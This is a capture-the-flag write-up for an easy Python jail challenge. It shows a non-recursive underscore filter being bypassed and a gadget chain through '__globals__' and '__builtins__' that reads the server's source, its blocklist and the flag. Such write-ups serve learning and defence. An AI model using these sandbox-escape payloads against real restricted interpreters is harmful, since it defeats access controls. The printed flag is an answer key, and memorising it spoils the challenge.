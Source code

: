 # IncognitoCTF 3.0 - PyJail 1

- Type: jail 
- Level: easy 
- Points : 100
- link : nc 142.93.209.130 13010

<center><img src="images/jail1.PNG"></center>

This was the first time I tried to solve a Python Jail escape, so the first thing I did was to search a "Python Jail escape cheatsheet", and I found [https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes](this) (I used it throught all the PyJail challenges).

I tried to digit something in the interactive python shell and I started to play with `__import__`, `__globals__`, `__builtins__`

This is what I discovered:
```
This file contains the flag let's see if you can find it(The name is jail1)
>>> __import__
  File "<console>", line 1
    import
          ^
SyntaxError: invalid syntax
import
>>> 
```

I found that there was some sort of substitution of `_`, `%`, `&` as a mitigation. 
The problem here is that the substitution is not recursive, so if I digit `_%_` I'll get `__`:
```
>>> _%_import_%_
Traceback (most recent call last):
  File "<console>", line 1, in <module>
NameError: name '__import__' is not defined
__import__
>>> 
```

This is the final gadget chain I used (starting from flag function):
`
flag._%_globals_%_['_%_builtins_%_'].open(flag._%_globals_%_['_%_file_%_']).read()
`

Result: `'#!/usr/bin/env python3\nimport os\nimport sys\nimport code\nimport re\n\n#ictf{Th1s_Wa5_3a5y_4123821379}\ndef user_input(arg):\n    s = input(">>> ")\n    s = s.replace(\'__\', \'\')\n    s = s.replace(\'%\', \'\')\n    not_allowed = [\n    r\'\\"\',\n    r\'\\+\',\n    r\'-\',\n    r\'\\*\',\n    r\'/\',\n    r\'<\',\n    r\'>\',\n    r\'\\^\',\n    r\'&\',\n    r\'\\|\',\n    ]\n    print(s)\n    if any([re.search(r, s) for r in not_allowed]):\n    \tprint("Can\'t do dis......")\n    \texit()\n    if(s == \'exit\'):\n    \texit()\n    return s\n    \ndef flag(arg):\n\tprint(\'You did it\')\ndef main():\n    scope = {"__builtins__": {"flag": flag}}\n    message = "This file contains the flag let\'s see if you can find it(The name is jail1)"\n\n    while True:\n    \tcode.interact(message, user_input, scope)\nmain()'`

And the flag is: `ictf{Th1s_Wa5_3a5y_4123821379}`
